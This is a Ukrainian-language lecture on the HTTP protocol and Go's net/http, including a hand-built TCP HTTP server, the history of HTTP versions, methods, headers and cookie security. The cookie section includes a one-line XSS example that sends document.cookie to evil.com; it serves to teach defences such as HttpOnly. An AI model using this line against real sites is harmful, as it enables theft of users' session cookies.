





# Протокол HTTP та стандартний вебсервер Go

::card-group

::card{title="🎯 Навчальні цілі" icon="i-lucide-graduation-cap"}

- Усвідомити історичну **еволюцію протоколу HTTP** від HTTP/1.0 через HTTP/1.1 та HTTP/2 до найновішого HTTP/3 на базі транспорту QUIC, і зрозуміти мотивацію кожного кроку цієї еволюції.
- Розібрати детальну **анатомію HTTP-запитів та відповідей**: стартовий рядок, методи (GET, POST, PUT, PATCH, DELETE), версію протоколу, статус-коди, керуючі заголовки та тіло повідомлення.
- Опанувати концепції **ідемпотентності** та **безпеки** (_safe methods_) HTTP-методів і зрозуміти, чому ці властивості критичні для проєктування надійних клієнт-серверних API.
- Вивчити стандартний пакет `net/http` мови Go: центральний інтерфейс `http.Handler`, його реалізацію через функції `http.HandlerFunc`, стандартний роутер `http.ServeMux` та його обмеження.
- Навчитися створювати кастомний `http.Server` із точним налаштуванням таймаутів читання/запису, розмірів буферів, параметрів Keep-Alive та інтеграції TLS-сертифікатів.
- Зрозуміти, як Go-рантайм обробляє HTTP-запити: модель «одна горутина на запит», внутрішній пул буферів, потокове введення/виведення через інтерфейси `io.Reader` та `io.Writer`.
- Опанувати обробку різних типів HTTP-запитів: читання параметрів URL, заголовків, форм `application/x-www-form-urlencoded`, багатокомпонентних форм `multipart/form-data` та потокового тіла запиту.
- Побачити еволюцію від елементарного TCP-сервера, який вручну формує HTTP-відповіді, до використання зручних абстракцій стандартної бібліотеки, щоб усвідомити цінність готових бібліотек.
- Навчитися організовувати коректне завершення роботи HTTP-сервера (Graceful Shutdown) при отриманні сигналів операційної системи.

::

::card{title="🛠️ Технологічний стек" icon="i-lucide-cpu"}

- **Мова:** Go 1.22+
- **Пакети стандартної бібліотеки:** `net/http`, `net`, `io`, `bufio`, `context`, `crypto/tls`, `os/signal`
- **Інструменти діагностики:** cURL, Postman, HTTPie, браузер Developer Tools, Wireshark
- **Тестування:** `net/http/httptest` для модульних тестів HTTP-обробників

::

::

---

## Від TCP-сокетів до HTTP: чому потрібен прикладний протокол

У попередніх лекціях ми детально розібрали роботу з **TCP-сокетами** на низькому рівні: створювали слухача за допомогою `net.Listen`, приймали з'єднання через `Accept()`, читали та записували байти в потік `net.Conn`, проєктували власні протоколи прикладного рівня з розділювачами або префіксами довжини повідомлення. Ми навчилися будувати базові сервери, які можуть обмінюватися текстовими командами або бінарними структурами даних із клієнтами.

Але уявіть собі наступну ситуацію: ви створили REST API для мобільного застосунку, і вам потрібно забезпечити можливість клієнту на **React Native** отримувати список товарів, завантажувати зображення, відправляти форми реєстрації, аутентифікуватися через токени, обмінюватися JSON-даними. Десктопний застосунок на **JavaFX** або **C# Avalonia** повинен підключатися до того самого API. Браузерний клієнт працює через JavaScript `fetch()`. CLI-утиліта на **Go** або **Python** надсилає запити через бібліотеки `http.Client` або `requests`.

Якби кожен клієнт використовував власний кастомний протокол поверх TCP, вам довелося б писати окремий парсер для кожної платформи, домовлятися про формат повідомлень, обробляти помилки, керувати станом з'єднання, стежити за версіонуванням протоколу. Це було б величезною інженерною катастрофою, яка унеможливлює інтероперабельність (_interoperability_) — здатність різних систем працювати разом без спеціальних налаштувань.

Саме тому у 1991 році **Тім Бернерс-Лі** (_Tim Berners-Lee_) створив перший стандартизований протокол прикладного рівня для передачі гіпертекстових документів — **HyperText Transfer Protocol** (_HTTP_). Початкова версія HTTP/0.9 була надзвичайно простою: клієнт відправляв один рядок `GET /index.html`, сервер повертав HTML-документ і закривав з'єднання. Але ця проста ідея поклала початок стандарту, який сьогодні використовується **мільярдами пристроїв** по всьому світу — від смартфонів та розумних телевізорів до промислових IoT-сенсорів та серверів дата-центрів.

::note
**HTTP як універсальна мова інтернету:** Протокол HTTP став настільки універсальним, що навіть системи, які не мають жодного відношення до вебсторінок, використовують його як транспорт. REST API, GraphQL, WebHooks, серверні події (Server-Sent Events), навіть деякі реалізації RPC-систем працюють поверх HTTP. Причина проста: HTTP стандартизований, підтримується всіма мовами програмування та платформами, має широкий інструментарій для налагодження, і його розуміють усі інженери.
::

---

## Демонстрація: елементарний HTTP-сервер на чистому TCP

Перш ніж переходити до зручних абстракцій стандартного пакета `net/http`, давайте побудуємо **мінімальний HTTP-сервер вручну** на базі TCP-сокетів, щоб студент міг побачити, що саме відбувається «під капотом» і чому використання готової бібліотеки є значно кращим рішенням.

HTTP/1.1 — це **текстовий протокол**, побудований поверх TCP. Кожен запит та відповідь складаються з текстових рядків, розділених послідовністю символів `\r\n` (Carriage Return + Line Feed). Ось приклад найпростішого HTTP-запиту, який браузер відправляє серверу:

```
GET /hello HTTP/1.1\r\n
Host: localhost:8080\r\n
\r\n
```

Розберемо структуру:
1. **Стартовий рядок** (_request line_): метод `GET`, шлях `/hello`, версія протоколу `HTTP/1.1`.
2. **Заголовки** (_headers_): один або більше рядків формату `Ім'я-Заголовка: Значення`, у нашому випадку `Host: localhost:8080`. Заголовок `Host` є обов'язковим у HTTP/1.1, оскільки один IP-адреса може обслуговувати десятки доменів (віртуальний хостинг).
3. **Порожній рядок** (`\r\n\r\n`): сигналізує кінець заголовків. Після нього може йти тіло запиту (_body_), якщо метод це передбачає (наприклад, POST).

Відповідь сервера має аналогічну структуру:

```
HTTP/1.1 200 OK\r\n
Content-Type: text/html; charset=utf-8\r\n
Content-Length: 62\r\n
\r\n
<html><body><h1>Hello from TCP Server</h1></body></html>
```

Створимо повний робочий приклад TCP-сервера, який парсить HTTP-запит та формує HTTP-відповідь вручну:

::code-group

```go [cmd/http-tcp-server/main.go]
package main

import (
	"bufio"
	"fmt"
	"log"
	"net"
	"strings"
)

func main() {
	// Створюємо TCP-слухача на порту 8080
	listener, err := net.Listen("tcp", ":8080")
	if err != nil {
		log.Fatalf("Помилка створення слухача: %v", err)
	}
	defer listener.Close()

	fmt.Println("🚀 HTTP-сервер на чистому TCP запущено на http://localhost:8080")
	fmt.Println("Спробуйте відкрити у браузері або виконати: curl http://localhost:8080/hello")

	for {
		// Приймаємо вхідне з'єднання
		conn, err := listener.Accept()
		if err != nil {
			log.Printf("Помилка прийняття з'єднання: %v", err)
			continue
		}

		// Обробляємо кожне з'єднання в окремій горутині
		go handleConnection(conn)
	}
}

func handleConnection(conn net.Conn) {
	defer conn.Close()

	// Читаємо запит через буферизований Reader
	reader := bufio.NewReader(conn)

	// Читаємо стартовий рядок: "GET /hello HTTP/1.1"
	requestLine, err := reader.ReadString('\n')
	if err != nil {
		log.Printf("Помилка читання стартового рядка: %v", err)
		return
	}

	// Парсимо метод та шлях
	parts := strings.Fields(requestLine)
	if len(parts) < 2 {
		sendResponse(conn, 400, "text/plain", "Bad Request: Invalid request line")
		return
	}

	method := parts[0]
	path := parts[1]

	log.Printf("📥 Запит: %s %s від %s", method, path, conn.RemoteAddr())

	// Читаємо всі заголовки до порожнього рядка
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return
		}
		// Порожній рядок (\r\n) сигналізує кінець заголовків
		if line == "\r\n" || line == "\n" {
			break
		}
	}

	// Формуємо відповідь залежно від шляху
	switch path {
	case "/":
		html := `<html><body><h1>Вітаємо на HTTP-сервері!</h1><p>Цей сервер побудовано на чистому TCP без використання net/http.</p></body></html>`
		sendResponse(conn, 200, "text/html; charset=utf-8", html)

	case "/hello":
		html := `<html><body><h1>Hello from TCP Server</h1><p>Ви побачили еволюцію: від TCP до HTTP бібліотеки.</p></body></html>`
		sendResponse(conn, 200, "text/html; charset=utf-8", html)

	case "/json":
		json := `{"message": "Це JSON відповідь", "server": "custom-tcp-http", "version": "1.0"}`
		sendResponse(conn, 200, "application/json", json)

	default:
		html := `<html><body><h1>404 Not Found</h1><p>Ресурс не знайдено.</p></body></html>`
		sendResponse(conn, 404, "text/html; charset=utf-8", html)
	}
}

func sendResponse(conn net.Conn, statusCode int, contentType, body string) {
	// Формуємо статус-код та його текстове пояснення
	statusText := map[int]string{
		200: "OK",
		400: "Bad Request",
		404: "Not Found",
		500: "Internal Server Error",
	}[statusCode]

	// Формуємо HTTP-відповідь вручну
	response := fmt.Sprintf("HTTP/1.1 %d %s\r\n", statusCode, statusText)
	response += fmt.Sprintf("Content-Type: %s\r\n", contentType)
	response += fmt.Sprintf("Content-Length: %d\r\n", len(body))
	response += "Connection: close\r\n" // Закриваємо з'єднання після відповіді
	response += "\r\n"                  // Порожній рядок перед тілом
	response += body

	// Записуємо відповідь у сокет
	_, err := conn.Write([]byte(response))
	if err != nil {
		log.Printf("Помилка запису відповіді: %v", err)
	}
}
```

::

Цей сервер можна запустити командою:

```bash
go run cmd/http-tcp-server/main.go
```

Тепер відкрийте браузер та перейдіть за адресою `http://localhost:8080/hello` — ви побачите HTML-сторінку. Або виконайте у терміналі:

```bash
curl http://localhost:8080/json
```

Ви отримаєте JSON-відповідь:

```json
{"message": "Це JSON відповідь", "server": "custom-tcp-http", "version": "1.0"}
```

::warning
**Чому цей підхід не використовується в реальних застосунках:** Хоча наш TCP-сервер функціонує, він є **надзвичайно спрощеним** і не підтримує критично важливих функцій HTTP/1.1:
- Ми не обробляємо заголовки запиту (наприклад, `Content-Length`, `Transfer-Encoding: chunked`).
- Ми не підтримуємо постійні з'єднання (`Connection: keep-alive`) — після кожної відповіді сокет закривається.
- Ми не читаємо тіло запиту (наприклад, дані POST-форми або JSON).
- Ми не обробляємо складні HTTP-методи (PUT, PATCH, DELETE, OPTIONS, HEAD).
- Ми не підтримуємо HTTP/2 або HTTP/3.
- Ми не перевіряємо заголовок `Host` для віртуального хостингу.

Цей приклад демонструє **фундаментальні принципи**, але для реальних застосунків ми завжди використовуємо стандартний пакет `net/http`, який реалізує всю складність специфікації RFC 7230–7235.
::


---

## Еволюція протоколу HTTP: від 1.0 до 3.0

Щоб по-справжньому оцінити архітектурні рішення, закладені у стандартний пакет `net/http` мови Go, необхідно зрозуміти історичну еволюцію самого протоколу HTTP та ті проблеми, які кожна нова версія намагалася вирішити.

### HTTP/1.0 (1996): народження вебу

Специфікація **HTTP/1.0** (_RFC 1945_) була оформлена у 1996 році і вже містила концепції методів (GET, POST, HEAD), статус-кодів та заголовків. Але архітектура HTTP/1.0 мала фундаментальну проблему: **кожен запит вимагав окремого TCP-з'єднання**. Процес виглядав так:

1. Клієнт встановлює TCP-з'єднання з сервером (3-way handshake).
2. Клієнт відправляє HTTP-запит.
3. Сервер відправляє HTTP-відповідь.
4. З'єднання закривається (4-way termination).

Якщо вебсторінка містила HTML-документ, 10 зображень, 3 CSS-файли та 5 JavaScript-файлів, браузер повинен був встановити та закрити **19 окремих TCP-з'єднань**. Кожне з'єднання вимагає мережевого рукостискання (затримка RTT — _Round-Trip Time_), виділення пам'яті на сервері, налаштування вікна перегляду TCP (_congestion window_). Для сторінок із десятками ресурсів це створювало величезні накладні витрати.

### HTTP/1.1 (1997): постійні з'єднання та конвеєри

Специфікація **HTTP/1.1** (_RFC 2616_, пізніше оновлена у _RFC 7230–7235_) вирішила головну проблему попередника: було введено концепцію **постійних з'єднань** (_persistent connections_) через заголовок `Connection: keep-alive`. Тепер одне TCP-з'єднання могло обслуговувати **декілька послідовних запитів** без необхідності повторного рукостискання. Це радикально зменшило затримки та навантаження на сервер.

HTTP/1.1 також додав:
- **Заголовок `Host`:** дозволяє одному серверу обслуговувати десятки доменів на одній IP-адресі (віртуальний хостинг).
- **Chunked Transfer Encoding:** можливість передавати відповідь частинами без заздалегідь відомої довжини (критично для потокового відео або серверних подій).
- **Нові методи:** PUT, PATCH, DELETE, OPTIONS для RESTful API.
- **Кешування:** розширені механізми керування кешем через заголовки `Cache-Control`, `ETag`, `If-None-Match`.

Проте HTTP/1.1 все ще мав проблему **блокування на початку черги** (_Head-of-Line Blocking_): якщо перший запит у черзі оброблюється повільно (наприклад, завантаження великого файлу), всі наступні запити в тому самому з'єднанні змушені чекати.

### HTTP/2 (2015): мультиплексування та бінарний протокол

**HTTP/2** (_RFC 7540_) став революційним кроком: протокол перейшов з текстового формату на **бінарний фреймовий формат**, що дозволило реалізувати **мультиплексування** (_multiplexing_) — передачу декількох логічних потоків (_streams_) одночасно в межах одного TCP-з'єднання. Тепер браузер міг відправити 100 запитів одночасно, і сервер міг відповідати на них у будь-якому порядку, розподіляючи байти між потоками за пріоритетами.

HTTP/2 також запровадив:
- **Стиснення заголовків (HPACK):** багато заголовків повторюються в кожному запиті (наприклад, `User-Agent`, `Cookie`), HPACK стискає їх у компактні індекси.
- **Server Push:** сервер може ініціативно відправити ресурси клієнту ще до того, як той їх запросить (наприклад, CSS/JS при запиті HTML).
- **Пріоритизація потоків:** клієнт може вказати, які ресурси важливіші, щоб сервер обробляв їх першими.

Проте HTTP/2 все ще працює поверх **TCP**, і якщо на мережевому рівні втрачається один TCP-пакет, весь потік блокується до його повторної передачі (TCP Head-of-Line Blocking на рівні транспорту).

### HTTP/3 (2022): QUIC замість TCP

**HTTP/3** (_RFC 9114_) вирішив останню проблему, повністю замінивши транспортний протокол: замість TCP використовується **QUIC** (_Quick UDP Internet Connections_, _RFC 9000_) — протокол, побудований поверх **UDP**, але з вбудованою надійністю, шифруванням (TLS 1.3 інтегровано в QUIC) та підтримкою множинних потоків без блокування.

Основні переваги HTTP/3:
- **Усунення Head-of-Line Blocking:** втрата пакета впливає лише на один логічний потік, інші продовжують працювати.
- **Швидше встановлення з'єднання:** QUIC об'єднує криптографічне рукостискання та транспортне з'єднання в один крок (0-RTT при повторному підключенні).
- **Стійкість до зміни мережі:** QUIC ідентифікує з'єднання не за IP-адресою, а за унікальним **Connection ID**, тому перехід зі Wi-Fi на мобільний інтернет не обриває з'єднання.

Станом на 2026 рік HTTP/3 підтримується всіма основними браузерами, CDN-провайдерами (Cloudflare, Fastly, Akamai) та вебсерверами (nginx, Caddy). У Go підтримка HTTP/3 реалізована через сторонню бібліотеку `quic-go`, оскільки стандартна бібліотека `net/http` поки що офіційно підтримує лише HTTP/1.1 та HTTP/2.

::plant-uml{alt="Еволюція HTTP: порівняння версій протоколу"}



::

::note
**Що підтримує стандартний пакет `net/http` у Go:** Станом на Go 1.22, пакет `net/http` автоматично підтримує **HTTP/1.1** та **HTTP/2** (якщо з'єднання захищене TLS). Вам не потрібно нічого змінювати у коді — Go-рантайм автоматично визначає, яку версію протоколу підтримує клієнт (через механізм **ALPN** — _Application-Layer Protocol Negotiation_ у TLS-рукостисканні), і обирає найкращу. Для підтримки HTTP/3 необхідно використовувати сторонню бібліотеку `github.com/quic-go/quic-go`.
::

---

## Анатомія HTTP-запиту: розбір структури на молекули

Кожен HTTP-запит складається з трьох основних компонентів: **стартовий рядок** (_request line_), **заголовки** (_headers_) та опціональне **тіло** (_body_). Розглянемо детально кожен елемент.

### Стартовий рядок: метод, URI та версія протоколу

Стартовий рядок має наступний формат:

```
METHOD REQUEST-URI HTTP-VERSION\r\n
```

Приклади:
```
GET /api/v1/users HTTP/1.1
POST /auth/login HTTP/1.1
PUT /api/v1/users/42 HTTP/2.0
DELETE /api/v1/posts/123 HTTP/1.1
```

**Компоненти:**
1. **METHOD** — HTTP-метод, який визначає тип операції: GET, POST, PUT, PATCH, DELETE, HEAD, OPTIONS, CONNECT, TRACE.
2. **REQUEST-URI** — шлях до ресурсу на сервері, може містити query-параметри: `/api/users?page=2&limit=20`.
3. **HTTP-VERSION** — версія протоколу: `HTTP/1.1`, `HTTP/2.0` тощо.

### HTTP-методи: семантика та властивості

Кожен HTTP-метод має чітко визначену **семантику** (_meaning_) згідно зі специфікацією RFC 7231. Розглянемо найпоширеніші методи:

#### GET: безпечне отримання ресурсу
- **Призначення:** отримання представлення ресурсу без зміни стану сервера.
- **Властивості:**
  - **Safe (безпечний):** виклик методу GET не повинен змінювати стан сервера.
  - **Idempotent (ідемпотентний):** багаторазовий виклик дає той самий результат, що й одноразовий.
  - **Cacheable (кешується):** відповіді можуть зберігатися в кеші браузера або проксі-серверів.
- **Приклади:**
  - `GET /api/v1/users` — отримання списку користувачів.
  - `GET /api/v1/users/42` — отримання даних користувача з ID = 42.
  - `GET /api/v1/products?category=electronics&sort=price` — отримання відфільтрованого списку.

#### POST: створення нового ресурсу
- **Призначення:** створення нового ресурсу або виконання дії, яка змінює стан сервера.
- **Властивості:**
  - **Not Safe:** POST завжди змінює стан сервера (наприклад, додає запис у базу даних).
  - **Not Idempotent:** повторний виклик POST може створити дублікати (наприклад, два користувачі з однаковими даними).
  - **Not Cacheable (за замовчуванням):** відповіді POST не кешуються.
- **Приклади:**
  - `POST /api/v1/users` з тілом JSON — створення нового користувача.
  - `POST /auth/login` з тілом `{"email": "...", "password": "..."}` — вхід у систему.

#### PUT: повна заміна ресурсу
- **Призначення:** повна заміна існуючого ресурсу новим представленням або створення ресурсу за конкретним URI, якщо його не існує.
- **Властивості:**
  - **Not Safe:** змінює стан сервера.
  - **Idempotent:** повторний виклик `PUT /api/v1/users/42` з тим самим тілом дає той самий результат.
- **Приклади:**
  - `PUT /api/v1/users/42` з повним об'єктом користувача — заміна всіх полів.

#### PATCH: часткове оновлення ресурсу
- **Призначення:** часткова модифікація існуючого ресурсу (зміна лише окремих полів).
- **Властивості:**
  - **Not Safe:** змінює стан.
  - **Idempotent (за бажанням):** залежить від реалізації. Якщо PATCH встановлює абсолютні значення полів, він ідемпотентний. Якщо виконує відносні операції (наприклад, збільшити лічильник на 1), то ні.
- **Приклади:**
  - `PATCH /api/v1/users/42` з тілом `{"email": "new@example.com"}` — зміна лише email.

#### DELETE: видалення ресурсу
- **Призначення:** видалення ресурсу на сервері.
- **Властивості:**
  - **Not Safe:** змінює стан.
  - **Idempotent:** перший виклик видаляє ресурс, всі наступні виклики повертають 404 Not Found, але стан сервера більше не змінюється.
- **Приклади:**
  - `DELETE /api/v1/posts/123` — видалення поста.

#### HEAD: отримання лише заголовків
- **Призначення:** отримання метаданих ресурсу без тіла відповіді (корисно для перевірки існування файлу або його розміру).
- **Властивості:** Safe, Idempotent, Cacheable.

#### OPTIONS: визначення доступних методів
- **Призначення:** з'ясувати, які HTTP-методи підтримуються для конкретного ресурсу (використовується у CORS preflight-запитах).
- **Приклад відповіді:**
  ```
  HTTP/1.1 200 OK
  Allow: GET, POST, PUT, DELETE, OPTIONS
  ```

::tip
**Правило проєктування RESTful API:** завжди використовуйте HTTP-методи відповідно до їхньої семантики. Ніколи не використовуйте GET для операцій, що змінюють стан сервера (наприклад, `GET /api/users/delete/42` — це поганий дизайн). Клієнти та проксі-сервери можуть кешувати GET-запити, що призведе до непередбачуваної поведінки.
::


### HTTP-заголовки: метадані запиту та відповіді

Заголовки (_headers_) — це пари «ключ: значення», які передають додаткову інформацію про запит або відповідь. Заголовки розділені символами `\r\n`, і секція заголовків завершується порожнім рядком `\r\n\r\n`.

#### Найпоширеніші заголовки запиту

| Заголовок | Призначення | Приклад |
|---|---|---|
| `Host` | Ім'я домену сервера (обов'язковий у HTTP/1.1) | `Host: api.example.com` |
| `User-Agent` | Інформація про клієнта (браузер, мобільний застосунок) | `User-Agent: Mozilla/5.0 ...` |
| `Accept` | Типи контенту, які клієнт може обробити | `Accept: application/json` |
| `Accept-Encoding` | Алгоритми стиснення, які підтримує клієнт | `Accept-Encoding: gzip, deflate` |
| `Authorization` | Токен автентифікації (наприклад, JWT) | `Authorization: Bearer eyJhbGc...` |
| `Content-Type` | Тип даних у тілі запиту | `Content-Type: application/json` |
| `Content-Length` | Довжина тіла запиту в байтах | `Content-Length: 342` |
| `Cookie` | Куки, збережені клієнтом | `Cookie: session_id=abc123` |

#### Найпоширеніші заголовки відповіді

| Заголовок | Призначення | Приклад |
|---|---|---|
| `Content-Type` | Тип даних у тілі відповіді | `Content-Type: application/json; charset=utf-8` |
| `Content-Length` | Довжина тіла відповіді в байтах | `Content-Length: 1234` |
| `Set-Cookie` | Встановлення куків на клієнті | `Set-Cookie: token=xyz; HttpOnly; Secure` |
| `Cache-Control` | Політика кешування | `Cache-Control: no-cache, no-store` |
| `ETag` | Унікальний ідентифікатор версії ресурсу | `ETag: "33a64df551425fcc55e4d42a148795d9f25f89d4"` |
| `Location` | URL для редиректу (використовується зі статус-кодами 3xx) | `Location: /api/v1/users/42` |
| `Access-Control-Allow-Origin` | CORS: дозволені джерела для крос-доменних запитів | `Access-Control-Allow-Origin: *` |

::warning
**Небезпека відкритого CORS:** Заголовок `Access-Control-Allow-Origin: *` дозволяє будь-якому вебсайту виконувати запити до вашого API через JavaScript у браузері. Це може призвести до витоку даних, якщо API повертає чутливу інформацію без перевірки токенів автентифікації. У продакшн-середовищі завжди вказуйте конкретні дозволені домени: `Access-Control-Allow-Origin: https://app.example.com`.
::

### Тіло запиту та відповіді: корисне навантаження

Після секції заголовків може йти **тіло** (_body_) — корисне навантаження запиту або відповіді. Наявність тіла залежить від методу та заголовка `Content-Length` або `Transfer-Encoding: chunked`.

**Приклад POST-запиту з JSON-тілом:**

```
POST /api/v1/users HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Content-Length: 58

{"name": "Олександр", "email": "alex@example.com"}
```

**Приклад відповіді:**

```
HTTP/1.1 201 Created
Content-Type: application/json
Location: /api/v1/users/42
Content-Length: 89

{"id": 42, "name": "Олександр", "email": "alex@example.com", "created_at": "2026-09-01T10:30:00Z"}
```

### HTTP Cookies: збереження стану між запитами

Протокол HTTP за своєю природою є **беззстановим** (_stateless_) — кожен запит обробляється незалежно, і сервер не зберігає інформацію про попередні взаємодії з клієнтом. Але як же тоді працюють вебзастосунки, які «пам'ятають» вас після входу? Як інтернет-магазин зберігає вміст вашого кошика між сторінками?

Відповідь: **HTTP Cookies** (_куки_) — невеликі фрагменти даних, які сервер відправляє клієнту через заголовок `Set-Cookie`, а клієнт зберігає локально і автоматично відправляє назад серверу при кожному наступному запиті через заголовок `Cookie`.

#### Життєвий цикл cookie

::plant-uml{alt="Життєвий цикл HTTP Cookie"}



::

#### Встановлення cookie: заголовок Set-Cookie

Сервер встановлює cookie через заголовок `Set-Cookie` у відповіді:

```
HTTP/1.1 200 OK
Set-Cookie: session_id=a3fWa; Expires=Wed, 21 Oct 2026 07:28:00 GMT; HttpOnly; Secure; SameSite=Strict
Set-Cookie: theme=dark; Path=/; Max-Age=31536000
Content-Type: text/html

<html>...</html>
```

Браузер зберігає ці куки та автоматично додає їх до всіх наступних запитів на цей домен:

```
GET /dashboard HTTP/1.1
Host: example.com
Cookie: session_id=a3fWa; theme=dark
```

#### Атрибути cookie та їхнє призначення

| Атрибут | Призначення | Приклад |
|---|---|---|
| `Expires` | Дата закінчення терміну дії cookie | `Expires=Wed, 21 Oct 2026 07:28:00 GMT` |
| `Max-Age` | Тривалість життя cookie в секундах | `Max-Age=3600` (1 година) |
| `Domain` | Домен, для якого cookie валідний | `Domain=.example.com` (включає піддомени) |
| `Path` | Шлях URL, для якого cookie валідний | `Path=/api` (тільки для `/api/*`) |
| `Secure` | Cookie передається лише через HTTPS | `Secure` |
| `HttpOnly` | Cookie недоступний через JavaScript | `HttpOnly` |
| `SameSite` | Захист від CSRF-атак | `SameSite=Strict` / `Lax` / `None` |

#### Session cookies vs Persistent cookies

**Session cookies (сесійні куки):**
- Не мають атрибутів `Expires` або `Max-Age`.
- Видаляються автоматично, коли користувач закриває браузер.
- Використовуються для тимчасових даних (наприклад, ідентифікатор сесії).

**Persistent cookies (постійні куки):**
- Мають встановлений термін дії через `Expires` або `Max-Age`.
- Зберігаються на диску і залишаються після закриття браузера.
- Використовуються для налаштувань користувача (мова, тема), токенів "Запам'ятати мене".

#### Безпека cookies: атрибути HttpOnly, Secure та SameSite

**`HttpOnly`:** Найважливіший атрибут безпеки. Якщо cookie має прапорець `HttpOnly`, він **недоступний через JavaScript** (`document.cookie`). Це захищає від атак типу **XSS** (_Cross-Site Scripting_), коли зловмисник намагається викрасти сесійні токени через вразливість у frontend-коді.

**Приклад атаки без `HttpOnly`:**
```javascript
// Зловмисник вставляє цей код через XSS-вразливість
fetch('https://evil.com/steal?cookie=' + document.cookie);
```

Якщо cookie має `HttpOnly`, цей код не зможе його прочитати.

**`Secure`:** Cookie з цим атрибутом передається лише через **HTTPS**, ніколи через незахищений HTTP. Це запобігає перехопленню cookie при атаці **Man-in-the-Middle**.

**`SameSite`:** Захист від **CSRF** (_Cross-Site Request Forgery_) атак. Існує три режими:

- **`SameSite=Strict`:** Cookie відправляється лише при запитах із **того самого сайту**. Якщо користувач переходить на ваш сайт з іншого домену (наприклад, клік на посилання в email), cookie не буде відправлено. Максимальний рівень захисту, але може порушити зручність використання.

- **`SameSite=Lax`** (за замовчуванням у сучасних браузерах): Cookie відправляється при **навігації верхнього рівня** (GET-запити при переході по посиланню), але не відправляється при крос-доменних POST-запитах або завантаженнях ресурсів (``, `<iframe>`). Баланс між безпекою та зручністю.

- **`SameSite=None`:** Cookie відправляється при **всіх крос-доменних запитах**. Обов'язково вимагає атрибута `Secure`. Використовується для віджетів, iframe-вбудовувань або стороннього аутентифікаційного провайдера (OAuth).

